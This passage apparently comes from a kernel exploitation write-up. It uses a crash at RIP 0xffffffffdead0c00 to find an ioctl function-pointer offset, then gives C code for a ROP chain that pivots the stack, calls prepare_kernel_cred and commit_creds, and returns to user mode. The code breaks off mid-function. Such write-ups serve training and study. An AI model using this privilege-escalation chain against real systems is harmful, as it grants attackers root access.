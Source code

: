 ![alt text](./assets/image-5.png)

The kernel crashed, and we can see that the RIP is `0xffffffffdead0c00`, so the function pointer of `ioctl ops` is at offset `0xc00` (buf[12]). Use the pivot gadget
at the offset 12, then just to a normal ROP

```c
void krop()
{

    uint64_t idx = 0;
    uint64_t *rop = buf;
    // buf[12] = pivot;
    // buf[0x418 / 8] = g_buf;
    // buf[0] = 0xffffffffdeadbeef;

    rop[idx++] = pop_rdi_ret;               // 0 return address
    rop[idx++] = 0x0;                       // 1
    rop[idx++] = prepare_kernel_cred;       // 2
    rop[idx++] = pop_rcx_ret;               // 3
    rop[idx++] = 0;                         // 4
    rop[idx++] = mov_rdi_rax_rep_movsq_ret; // 5
    rop[idx++] = commit_creds;              // 6
    rop[idx++] = pop_rcx_ret;               // 7
    rop[idx++] = 0;                         // 8
    rop[idx++] = pop_rcx_ret;               // 9
    rop[idx++] = 0;                         // 10
    rop[idx++] = pop_rcx_ret;               // 11
    rop[idx++] = pivot;                     // 12
    rop[idx++] = swapgs_restore_regs_and_return_to_usermode;
    rop[idx++] = 0x0;
```
